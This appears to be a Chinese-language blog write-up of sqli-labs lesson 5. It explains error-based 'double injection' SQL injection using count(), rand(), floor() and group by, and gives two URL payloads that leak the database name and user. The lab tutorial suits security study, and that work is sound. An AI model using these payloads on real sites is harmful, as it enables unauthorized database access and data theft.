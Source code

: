 ```yaml
---
layout:     post
title:      sqli-labs(5)
subtitle:   sqli-labs(5)
date:       2020-12-07
author:     YY——阳阳
header-img: img/post/1.jpg
catalog: true
tags:
    - sqli-labs
---
```


## 前言

#### 什么是双注入？

双注入就是嵌套子查询，多走一条查询或者数据排序途径，获取想要的数据,例如select …(select …)，里面的那个select被称为子查询，它的执行顺序先执行子查询，然后再执行外面的select，双注入主要涉及到了几个sql函数利用：

---------------
```
rand()随机函数，返回0~1之间的某个值
floor(a)取整函数，返回小于等于a，且值最接近a的一个整数
count()聚合函数也称作计数函数，返回查询对象的总数
group by cluase分组语句，按照cluase对查询结果分组
```
#### 原理
当一个字符串函数，例如concat函数后面如果使用分组语句就会把查询，的一部分以错误的形式显示出来。

#### payload
> 第一次结果得不到，那就那就在提交请求几次，因为rand是一个随机数；下面payload也是如此。
```php
//爆库
?id=1' union select count(*),1,concat("-",(select database()), "-", floor(rand()*2 )) as a from information_schema.tables group by a --+
//爆user
?id=1' union select count(*),1,concat("-",(select user()), "-", floor(rand()*2 )) as a from information_schema.tables group by a --+
```
<a href="https://imgtu.com/i/cF3EBF"><img src="https://z3.ax1x.com/2021/03/30/cF3EBF.png" alt="cF3EBF.png" border="0" /></a>


